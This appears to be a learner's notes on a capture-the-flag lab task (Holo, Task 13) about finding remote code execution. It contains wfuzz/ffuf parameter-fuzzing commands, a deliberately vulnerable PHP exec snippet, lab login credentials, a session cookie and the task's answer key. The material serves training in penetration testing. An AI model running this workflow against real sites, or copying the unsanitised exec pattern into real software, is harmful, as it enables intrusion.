 Now that you have access to the administrator subdomain, you can fuzz for remote code execution and attempt to identify a specific parameter that you can exploit to gain arbitrary access to the machine.  

Remote code execution, also known as arbitrary code execution, allows you to execute commands or code on a remote system. RCE can often exploit this by controlling a parameter utilized by a web server.  

One method of attempting to identify RCE is by fuzzing for a vulnerable parameter using Wfuzz. Similar to how we used Wfuzz for asset discovery. The syntax is the same as previous commands; however, this time we will replace the `FUZZ` command at the end along with a `?` so that the complete `FUZZ` parameter is `?FUZZ=ls+-la` Find an example below from the test environment.

Syntax: `wfuzz -u <http://example.com/?FUZZ=ls+-la> -w <wordlist> --hw 2`

We suggest using the Seclists "big.txt" for fuzzing RCE parameters.  

Now that we know we can control the parameter, we can attempt to gain RCE on the box. Find an example below from the test environment.  

Command used: `curl -vvv http://localhost:8080/test.php?cmd=ls+-la && echo ""`

Rather than fuzzing all the pages that we find to identify RCE, we can utilize code analysis to look at the code running on a page and infer whether or not the code may be vulnerable. Find an example below of how code can run a command and is vulnerable to an attacker controlling the parameter.  

```
<?php    
	$id = $_GET["cmd"];   
	if ($_GET["cmd"] == NULL){   
		echo "Hello " . exec("whoami") . "!";   
	} else {
	   echo "Hello " . exec($id);   
    }   
?>
```

To identify RCE, you can decide whether you want to fuzz parameters of files or you want to review the source code of a file. Your approach may also differ depending on the scenario you are in and what resources or footholds you have at your disposal.

Once you have RCE on the system, you can use a reverse shell such as netcat to gain a shell on the box. Refer to the following cheat sheet for help with reverse shells. [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).


---

# Your job

## Log in

- Navigate to http://admin.holo.live/.

	![[Task 13 - Remote Control Empanadas-20240905142323219.webp]]
- Log in with the credentials `admin:DBManagerLogin!`.

	![[Task 13 - Remote Control Empanadas-20240905142604534.webp]]

## Fuzzing

- Use the PHPSESSID cookie that you got after logging in. You can find it using the "Web Develop Tools" from your browser.

	![[Task 13 - Remote Control Empanadas-20240905145623574.webp]]
	The value is `4bat94d2s93tepg4lkgrtjdqkn`.

- Run the following command to fuzz the parameter.

	`ffuf -b PHPSESSID=4bat94d2s93tepg4lkgrtjdqkn -u http://admin.holo.live/dashboard.php\?FUZZ\=pwd -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -fs 1586`

	![[Task 13 - Remote Control Empanadas-20240905150032028.webp]]
	The parameter is `cmd`.

- Navigate to http://admin.holo.live/dashboard.php/?cmd=whoami.

	![[Task 13 - Remote Control Empanadas-20240905150748521.webp]]
	The parameter with the command has worked. The user is www-data.


---
## Answer the questions below

> [!question]
> What file is vulnerable to RCE on the administrator domain?
> `dashboard.php`
> What parameter is vulnerable to RCE on the administrator domain?
> `cmd`
> What user is the web server running as?
> `www-data`

**Next step:** [[Task 14 - Meterpreter session 1 closed. Reason RUH ROH]]
